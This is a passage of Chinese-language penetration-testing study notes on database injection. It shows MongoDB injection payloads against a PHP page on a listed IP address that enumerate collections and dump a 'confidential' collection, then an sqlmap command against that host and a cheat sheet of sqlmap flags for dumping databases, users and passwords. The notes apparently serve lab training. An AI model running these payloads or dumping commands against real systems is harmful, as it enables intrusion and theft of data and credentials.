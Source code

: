 ![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135195882-b1f2a77c-2b32-4e2b-8229-05a65db67c48.png)

```plain
爆表： /new_list.php?id=1'}); return ({title:tojson(db.getCollectionNames()),content:'1  
db.getCollectionNames()返回的是数组，需要用tojson转换为字符串。
记录表名："Authority_confidential", "notice", "system.indexes"
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135195947-53e15488-d2b1-4c1c-806a-350985ea59c9.png)

```plain
爆字段：/new_list.php?id=1'}); return ({title:tojson(db.Authority_confidential.find()[0]),content:'1
db.Authority_confidential是当前用的集合（表），find函数用于查询，0是第一条数据
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135195999-2cb66854-b08d-4178-aabe-c6cdbd529c7a.png)

------

- 数据库注入-SQLMAP-DB2&SQLite&Sybase

基本上数据库都差不多的，所有本次用到Oracle数据库作为实验。有一些数据库SQLmap不支持，比如nosql等。

```plain
测试注入点：python310 sqlmap.py -u "http://219.153.49.228:40042/new_list.php?id=1"
测试的结果保存在：C:\Users\我是正经人z\AppData\Local\sqlmap\output\219.153.49.228
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135196326-80363729-cd0e-4b7e-a96b-6883f71a582d.png)

```plain
SQLmap使用步骤：
1、判断数据库注入点
2、判断注入点权限


#SQLMAP使用参数：
参考：https://www.cnblogs.com/bmjoker/p/9326258.html
基本操作笔记：-u  #注入点 
-f  #指纹判别数据库类型 
-b  #获取数据库版本信息 
-p  #指定可测试的参数(?page=1&id=2 -p "page,id") 
-D ""  #指定数据库名 
-T ""  #指定表名 
-C ""  #指定字段 
-s ""  #保存注入过程到一个文件,还可中断，下次恢复在注入(保存：-s "xx.log"　　恢复:-s "xx.log" --resume) 
--level=(1-5) #要执行的测试水平等级，默认为1 
--risk=(0-3)  #测试执行的风险等级，默认为1 
--time-sec=(2,5) #延迟响应，默认为5 
--data #通过POST发送数据 
--columns        #列出字段 
--current-user   #获取当前用户名称 
--current-db     #获取当前数据库名称 
--users          #列数据库所有用户 
--passwords      #数据库用户所有密码 
--privileges     #查看用户权限(--privileges -U root) 
-U               #指定数据库用户 
--dbs            #列出所有数据库 
--tables -D ""   #列出指定数据库中的表 
--columns -T "user" -D "mysql"      #列出mysql数据库中的user表的所有字段 
--dump-all            #列出所有数据库所有表 
--exclude-sysdbs      #只列出用户自己新建的数据库和表 
--dump -T "" -D "" -C ""   #列出指定数据库的表的字段的数据(--dump -T users -D master -C surname) 
--dump -T "" -D "" --start 2 --top 4  # 列出指定数据库的表的2-4字段的数据 
--dbms    #指定数据库(MySQL,Oracle,PostgreSQL,Microsoft SQL Server,Microsoft Access,SQLite,Firebird,Sybase,SAP MaxDB) 
--os      #指定系统(Linux,Windows) 
```